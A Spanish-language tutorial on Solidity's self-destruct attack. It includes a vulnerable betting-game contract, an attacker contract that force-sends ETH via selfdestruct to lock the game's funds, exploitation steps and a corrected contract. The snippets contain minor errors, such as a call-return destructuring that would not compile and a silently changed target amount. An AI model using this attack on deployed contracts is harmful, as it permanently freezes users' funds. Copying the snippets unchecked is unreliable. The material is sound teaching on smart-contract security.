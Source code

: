 ```yaml
---
title: 'Solidity: Ataque de Autodestrucción'
description: 'Las transferencias y el envío de ETH pueden ser perjudiciales para un contrato. Muchos ataques no solo buscan robar fondos, también pueden buscar causar daño y que se pierdan millones de dólares.'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Self-Destruct Attack',
  description: 'Transfers and sending ETH can be detrimental to a contract. Many attacks not only seek to steal funds, they may also seek to cause damage and millions of dollars in loss.'
}
---
```


# Solidity: Ataque de autodestrucción

Las transferencias y **el envío de ETH también pueden ser perjudiciales para un contrato**. Muchos ataques a contratos inteligentes no solo buscan robar fondos, también pueden buscar causar daño y que se pierdan millones en un proyecto.

## Recepción de ETH

Los contratos inteligentes pueden recibir ETH a través de funciones especiales o *hooks*.

* [**Fallback:**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function) La función `fallback()` se ejecuta por defecto cuando se hace un llamado a una función inexistente en un contrato. Puede ser sobreescrita y devolver un resultado o no.
* [**Receive:**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function) La función `receive()` puede ser declarada para que el contrato ejecute determinada lógica al recibir ETH. Si esta no existe, se ejecutará en su lugar la función `fallback`.

Es una buena práctica definir el comportamiento de `fallback()`. No necesariamente debemos utilizar `receive()`, ya que la regla de negocio de nuestro contrato puede no necesitarlo. Son dos maneras de controlar lo que sucede en nuestro contrato al recibir ETH.

## Autodestrucción de contratos

Una de las maneras de generar daño a un proyecto es **enviando de forma forzosa ETH** con la función `selfdestruct()`. La misma enviará todo el ETH que el contrato posea en ese momento, ignorando por completo la existencia de las funciones `fallback()` y `receive()` en el contrato receptor. Este contrato recibirá los ETH mientras que el contrato que ejecutó el `selfdestruct()` quedará inutilizado.

Es sabido que una de las particularidades de Blockchain es la inmutabilidad. Autodestruir un contrato implica, no cambiarle el comportamiento, pero si dejarlo inutilizable.
Originalmente, se ideó la función `selfdestruct()` para casos de emergencia, pero **no es aconsejable la utilización de esta función**, ya que no está garantizado que libere correctamente todo el ETH y el contrato receptor los reciba.

## ¿Por qué es un problema el envío de ETH forzoso?

Se supone que un contrato está "regalando" su ETH a otro. Deberíamos estar felices por ese donativo, pero dependiendo la regla de negocio del contrato receptor, el mismo puede romperse y quedar inutilizable.

Veamos un ejemplo de cómo puede explotarse esta vulnerabilidad:

### Explicación del contrato vulnerado

Comencemos entendiendo el funcionamiento del contrato principal que se trata de un simple juego que permite almacenar ETH y determinador un ganador al llegar a los X ETH.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/self-destruct/).

* El objetivo del juego es llegar a un depósito de 7 ETH.
* Los depósitos solo pueden ser de 1 ETH a la vez.
* El ganador será quien deposite el último ETH.
* Los usuarios no saben cuánto ETH hay en el contrato en cada momento.
* El objetivo del juego es que los usuarios adivinen cuándo se depositará el último ETH para quedarse con todos los fondos.

### Contratos involucrados

Comenzamos analizando el contrato inteligente principal del juego:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherGame {
  uint public targetAmount = 7 ether;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "Solo puedes enviar 1 ETH a la vez.");

    // Verificamos si hemos llegado a los 7 ETH.
    uint balance = address(this).balance;
    require(balance <= targetAmount, "El juego se ha terminado.");

    // Si llegamos al objetivo, seteamos la dirección del ganador para que reclame su premio.
    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }

  function claimReward() public {
    // Solo el ganador puede reclamar su premio.
    require(msg.sender == winner, "No eres el ganador.");

    (bool sent) = msg.sender.call{value: address(this).balance}("");
    require(sent, "El envío del ETH ha fallado.");
  }
}
```

Por otro lado, preparamos el contrato atacante:

```js
contract Attack {
  EtherGame etherGame;

  constructor(EtherGame _etherGame) {
    // Creamos la instancia de EtherGame.
    etherGame = EtherGame(_etherGame);
  }

  function attack() public payable {
    // Convertimos la dirección de EtherGame en payable.
    address payable addr = payable(address(etherGame));

    // Enviando de forma forzosa ETH a EtherGame, puedes romper el juego al igualar o superar los 7 ETH.
    selfdestruct(addr);
  }
}
```

### Procedimiento para vulnerar el contrato

* 1. Desplegar el contrato `EtherGame`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2/7 ETH.
* 3. Desplegar el contrato `Attack` que recibe en el constructor la dirección de `EtherGame`.
* 4. Hacer el llamado a `Attack.attack` enviando a la vez 5 ETH.

### ¿Qué sucedió aquí?

* `Attack`, al autodestruirse, provoca que de manera forzosa el contrato `EtherGame` llegue a 7 ETH. 2 ETH de sus usuarios más 5 del contrato atacante.
* Nadie más puede depositar ETH y nunca habrá ganador. El ETH en el contrato se pierde para siempre.

### ¿Por qué sucedió?

Observa el contrato `EtherGame`, verás varios puntos donde utiliza `address(this).balance` que devuelve la cantidad total de ETH que el contrato posee. No discrimina que los ETH hayan sido depositados a través de la función `deposit()` o de manera forzosa.

Esto provoca que el balance total del contrato llegue o supere los 7 ETH. El juego se termina, ya que la validación `require(balance <= targetAmount)` no permitirá depositar más ETH y nunca se llegó a setear un ganador para que reclame el premio.

### ¿Cómo se puede evitar?

La solución es muy sencilla, no debemos utilizar `address(this).balance` en un `require()` porque no podemos controlar que todos los ETH hayan sido depositados de manera fiable. En su lugar, declarar una variable en el contrato `uint public balance;` para almacenar el balance del juego e incrementarlo con `balance += msg.value;` con cada depósito.

```js
contract EtherGame {
  uint public balance;          // Variable para almacenar el balance del juego
  uint public targetAmount = 3 ether;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "Solo puedes enviar 1 ETH a la vez.");

    balance += msg.value;     // Incrementamos el balance del juego
    require(balance <= targetAmount, "El juego se ha terminado.");

    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }

  function claimReward() public {
    require(msg.sender == winner, "No eres el ganador.");
    (bool sent) = msg.sender.call{value: balance}("");
    require(sent, "El envío del ETH ha fallado.");
  }
}
```

## Conclusiones

Has visto como el envío de ETH puede ser un problema para un contrato inteligente. A veces los atacantes buscan hacer daño solo por maldad, perdiendo ellos también dinero. Ten en cuenta estos detalles de Solidity al desarrollar tus contratos y evitar bloqueos inesperados.
No utilices `address(this).balance` en validaciones sensibles de balances y ten presente la existencia de `selfdestruct()` y de cómo puede utilizarse.

---
Post creado en colaboración con el [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45718-denegacion-por-reversion/) de **Platzi**.
